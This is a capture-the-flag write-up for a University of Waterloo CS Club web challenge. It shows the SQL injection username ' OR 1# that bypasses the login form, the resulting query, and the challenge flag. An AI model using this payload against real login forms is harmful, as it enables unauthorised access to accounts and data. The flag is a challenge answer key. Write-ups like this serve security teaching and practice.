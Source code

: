 # web / web0

> Points: 1086

## Question


> [ctf.csclub.uwaterloo.ca/web/1](https://ctf.csclub.uwaterloo.ca/web/1)

## Solution

Clicking the link takes us to an authentication form. We use a simple SQL injection to bypass the authentication.
We put the username as `' OR 1#` and leave the password blank. Now the SQL query looks like:

```sql
SELECT * FROM users where username = '' OR 1#' and password = ''
```

With this, the site outputs the flag for us.

### Flag

`uwctf{0480fbf663a8241e}`
